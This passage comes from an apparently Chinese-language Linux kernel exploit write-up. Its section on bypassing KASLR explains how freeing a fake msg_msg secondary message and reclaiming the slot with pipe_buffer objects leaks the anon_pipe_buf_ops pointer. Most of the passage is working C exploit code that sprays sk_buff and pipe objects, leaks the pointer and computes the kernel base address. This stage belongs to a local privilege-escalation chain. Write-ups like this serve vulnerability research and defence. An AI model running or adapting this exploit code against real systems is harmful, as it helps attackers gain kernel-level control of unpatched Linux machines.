 ```
  // Calculate the address of the fake secondary message.
  kheap_addr -= SECONDARY_SIZE;
  printf("[+] kheap_addr: %" PRIx64 "\n", kheap_addr);
```

### **2.4 绕过KASLR**

pipe_buffer结构体中ops成员指向全局变量anon_pipe_buf_ops，anon_pipe_buf_ops与内核基地址偏移固定

构造fake辅助消息满足msg_msg-&gt;list_head-&gt;next == msg_msg-&gt;list_head-&gt;pre == fake辅助消息

直接释放fake辅助消息，使用pipefd函数分配pipe_buffer结构体结构体重新占据fake辅助消息空间

此时skb仍然占据fake辅助消息空间，通过读skb泄露anon_pipe_buf_ops地址，绕过KASLR

```
printf("[+] STAGE 3: KASLR bypass\n");

  printf("[*] Freeing fake secondary messages...\n");
  free_skbuff(ss, secondary_buf, sizeof(secondary_buf));

  // Put kheap_addr at m_list_next &amp; m_list_prev so that list_del() is possible.
  printf("[*] Spraying fake secondary messages...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, kheap_addr, kheap_addr, 0, 0);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) &lt; 0)
    goto err_rmid;

  printf("[*] Freeing sk_buff data buffer...\n");
  if (read_msg(msqid[fake_idx], &amp;msg_fake, sizeof(msg_fake), MTYPE_FAKE) &lt; 0)
    goto err_rmid;

  printf("[*] Spraying pipe_buffer objects...\n");
  for (int i = 0; i &lt; NUM_PIPEFDS; i++) `{`
    if (pipe(pipefd[i]) &lt; 0) `{`
      perror("[-] pipe");
      goto err_rmid;
    `}`
    // Write something to populate pipe_buffer.
    if (write(pipefd[i][1], "pwn", 3) &lt; 0) `{`
      perror("[-] write");
      goto err_rmid;
    `}`
  `}`

  printf("[*] Leaking and freeing pipe_buffer object...\n");
  for (int i = 0; i &lt; NUM_SOCKETS; i++) `{`
    for (int j = 0; j &lt; NUM_SKBUFFS; j++) `{`
      if (read(ss[i][1], secondary_buf, sizeof(secondary_buf)) &lt; 0) `{`
        perror("[-] read");
        goto err_rmid;
      `}`
      if (*(uint64_t *)&amp;secondary_buf[0x10] != MTYPE_FAKE)
        pipe_buffer_ops = *(uint64_t *)&amp;secondary_buf[0x10];
    `}`
  `}`

  kbase_addr = pipe_buffer_ops - ANON_PIPE_BUF_OPS;
  printf("[+] anon_pipe_buf_ops: %" PRIx64 "\n", pipe_buffer_ops);
  printf("[+] kbase_addr: %" PRIx64 "\n", kbase_addr);

  if ((kbase_addr &amp; 0xFFFF0000000FFFFF) != 0xFFFF000000000000) `{`
    printf("[-] Error kernel base address is incorrect.\n");
    goto err_rmid;
  `}`
```